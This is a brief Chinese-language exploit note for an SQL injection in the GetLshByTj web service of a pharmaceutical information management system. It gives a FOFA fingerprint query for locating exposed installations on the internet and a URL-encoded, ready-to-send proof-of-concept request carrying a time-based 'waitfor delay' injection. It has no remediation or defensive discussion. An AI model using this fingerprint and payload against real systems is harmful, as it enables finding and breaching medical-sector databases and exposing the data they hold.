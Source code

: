## 医药信息管理系统GetLshByTj存在SQL注入

## fofa

```
icon_hash="775044030"
```

## poc

```
/WebService.asmx/GetLshByTj?djcname=%31%27%3b%77%61%69%74%66%6f%72%20%64%65%6c%61%79%20%27%30%3a%30%3a%33%27%2d%2d%20%2d&redonly=true&tjstr=12
```

![医药信息管理系统 GetLshByTj SQL注入](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262320713.png)